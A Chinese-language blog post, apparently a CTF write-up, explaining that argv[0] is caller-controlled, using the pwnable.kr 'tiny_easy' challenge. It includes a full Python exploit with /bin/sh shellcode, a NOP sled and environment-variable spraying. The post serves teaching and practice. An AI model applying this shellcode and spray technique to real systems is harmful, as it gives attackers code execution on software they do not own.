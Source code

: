 ```yaml
---
title: 程序执行中我们所忽略的事
date: 2017-10-01 00:13:10
categories: 安全技术
tags: [linux, windows]
---
```


#### 1、程序执行时argv[0]一定会是程序名或者程序绝对路径吗？

这个问题可能让绝大多数人困惑，因为我们所看到的基本上都符合这个结论。那什么情况下不符合呢？

这就不得不提到我做过的pwnable.kr上的tiny_easy一题了

>I made a pretty difficult pwn task.
>However I also made a dumb rookie mistake and made it too easy :(
>This is based on real event :) enjoy.
>
>ssh tiny_easy@pwnable.kr -p2222 (pw:guest)

程序主体就一下几行:

>pop     eax
>pop     edx
>mov     edx, [edx]
>call    edx

那么eax其实是参数个数，而edx则是argv[0]所在字符串的前4位组成的32位地址

**exp.py**

```python
#!/usr/bin/python
import os
import subprocess

jumpto = "\xb0\xaf\xb5\xff"
shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
nopsled = "\x90"*4096;
payload = nopsled+shellcode

myenv = {}
# Arbitrary largeish number
for i in range(0,100):
    myenv["spray"+str(i)] = payload

while True:
    p = subprocess.Popen([jumpto], executable="tiny_easy", env=myenv)
    p.wait()
```

脚本很简单，利用的是类堆喷的方法。

这里subprocess.Popen(args, executable=None, env=None)

其实args这个list中的第一个参数是argv[0]，而执行的程序则是executable对应的elf文件。可以发现<font color=#f00>用户可以控制程序执行时argv[0]</font>

当然除了subprocess有这个功能，pwntools中pwnlib.tubes.process.process(*args*, *shell = False*, *executable = None*, *env = None*, *timeout = 'default'*, *log_level = INFO*)也可以有类似的操作

